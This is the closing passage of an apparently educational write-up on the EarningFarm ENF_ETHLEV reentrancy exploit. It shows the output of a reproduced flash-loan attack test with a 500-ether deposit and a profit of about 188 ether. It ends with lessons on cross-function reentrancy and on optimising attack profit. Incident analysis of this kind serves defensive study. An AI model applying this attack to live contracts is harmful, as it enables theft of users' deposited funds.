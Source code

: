 Let's go back to the ENF\_ETHLEV contract code and find that it has a maximum limit for the amount of ETH deposited by users, set at maxDeposit, which is 500 ether.

So, let's attempt to deposit 500 ether and perform the attack once again.

```markdown
Running 1 test for test/20230809_EarningFarm_exp_4.t.sol:ContractTest
[PASS] testExploit() (gas: 4014028)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  500000000000000000000
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  500000000000000000000
  Exchange input:  1587301587301587301587 1587301587301587301587
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1586566199378081035496 1587301587301587301587
  [*] Attacker's ether balance after deposit: 9500.000000000000000000
  [*] Attacker's LP share after deposit: 461.262551644732899788
  Cont Withdraw:  498953010905994930719 498953010905994930719
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9998.953010905994930719
  Cont Withdraw:  194540896679317921776 194540896679317921776
  [*] Attacker's total WETH after attack: 10193.493907585312852495
  [*] Attacker's total WETH after payback flashloan: 188.493907585312852495
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 188.493907585312852495

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

In this case, our profit would be 188 ether, which is 34 ether higher than the initial 154 ether. This optimization is indeed valuable.

## 5. Conclusion

1. The use of the nonReentrancy modifier does not necessarily prevent reentrancy issues, as reentrancy can occur across different functions within the same contract. It is crucial to adhere to the check-effect-interaction principle whenever possible!
2. The initial attack flow may not always be optimal. Optimizing both cost and profit could potentially lead to better attack outcomes. This requires a more detailed analysis of the contract, along with the application of certain mathematical tools.

## Reference

1. [https://github.com/SunWeb3Sec/DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs)
2. [https://twitter.com/Phalcon\_xyz/status/1689182459269644288](https://twitter.com/Phalcon\_xyz/status/1689182459269644288)
3. [https://explorer.phalcon.xyz/tx/eth/0x6e6e556a5685980317cb2afdb628ed4a845b3cbd1c98bdaffd0561cb2c4790fa](https://explorer.phalcon.xyz/tx/eth/0x6e6e556a5685980317cb2afdb628ed4a845b3cbd1c98bdaffd0561cb2c4790fa)
4. [https://github.com/descartes100/Web3Hack](https://github.com/descartes100/Web3Hack)
